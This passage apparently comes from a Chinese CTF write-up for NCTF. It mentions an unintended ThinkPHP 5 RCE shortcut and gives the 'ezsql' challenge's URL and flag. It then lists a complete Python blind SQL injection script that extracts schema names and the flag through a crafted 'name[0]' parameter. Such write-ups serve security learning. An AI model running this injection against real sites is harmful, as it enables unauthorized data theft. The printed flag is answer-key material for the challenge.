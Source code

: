 #### 非预期：

tp5全版本未开启强制路由导致rce，直接cat /flag就行

### ezsql

> 出题人ID：N1k0la
> 题目描述:
> 这还能注入吗
> http://129.211.173.64:3080/login.php
> 附件链接：
> http://129.211.173.64:3080/www.zip
> flag：
> NCTF{3v3ryth1ng_not_fantast1c_:)}

```python
import requests

rst = ""
url = "http://129.211.173.64:3080/login.php"
# sql = "database()"
# sql = "(select group_concat(table_name) from information_schema.tables where table_schema regexp 0x32303231)"
# sql = "(select group_concat(column_name) from information_schema.columns where table_name regexp 0x4e635446)"
sql = "(select group_concat(`fl@g`) from NcTF)"
for i in range(1, 100):
    low = 32
    high = 127
    while low < high:
        mid = (low + high) // 2
        data = {
            "password": "%s",
            "name[0]": f") or (ascii(substr({sql},{i},1))>{mid})#",
            "name[1]": "2"
        }
        rsp = requests.post(url=url, data=data)
        if "NCTF" in rsp.text:
            low = mid + 1
            print(rsp.text)
        else:
            high = mid
    rst += chr(high)
    print(rst)
```

另一种解法是用$1

## Pwn

### login
